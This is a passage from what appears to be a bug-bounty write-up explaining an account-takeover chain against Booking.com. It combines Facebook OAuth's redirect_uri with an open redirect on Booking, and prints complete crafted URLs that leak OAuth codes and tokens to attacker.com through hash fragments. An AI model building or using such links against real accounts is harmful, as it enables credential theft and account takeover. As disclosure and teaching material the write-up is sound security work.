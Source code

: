 The link automatically redirects the victim to a shorter link (I skipped it before):

_https://account.booking.com/settings/oauth\_callback?state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ\&code=not\_important\_123_

And then to:

_**https://attacker.com/index.php**_

You might have seen the word “OAuth” or “redirect\_uri” in the open-redirection link. I assume it’s an inner implementation of OAuth in Booking.com. It isn't related to Facebook or to the redirect\_uri from security gap 1.

**Now we have an open redirection bug in booking.com.**

**Security gap 1 + 2 = Account Takeover Attempt**

The link to Facebook from security gap 1 (where we can send the code to any path we want):

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/**any/path/we/want**\&scope=email\&client\_id=210068525731476\&state=large\_object]\&response\_type=code_

**+**

The open redirection link from security gap 2 (redirection to _www.attacker.com_) is:

_**https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**_

**=**

Let’s insert the open redirection link in the redirect\_uri from security gap 1:

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=**https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**\&scope=email\&response\_type=code\&client\_id=210068525731476_

We send this link to the victim.

**Changing the response type**

If the victim clicks on the link as it, Facebook redirects the user to the URL from security gap 2, with a code:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ\&code=\[secret\_code]_

It’s the URL with the open redirection (the state eyJteXN… points to attacker.com), so Booking redirects the victim to: _https://attacker.com/index.php_.

**However, in a redirection, only the values after ‘#’ (hash fragments) are passed by the browser.** The code, which was passed in a query parameter (?=code=), was not sent to attacker.com (does not appear in the redirection to https://attacker.com/index.php).

By changing the response type from “code” to “code, token”. Facebook will send both the code and the token in the **hash fragment**. It’s a feature :)

The reason: since an access token is a super sensitive value in OAuth, using the hash fragment is a more secure approach. It is not sent to the server side and doesn't appear in the logs – only the javascript code can read it. (For more information on this detail, you can Google “OAuth implicit grant.”)
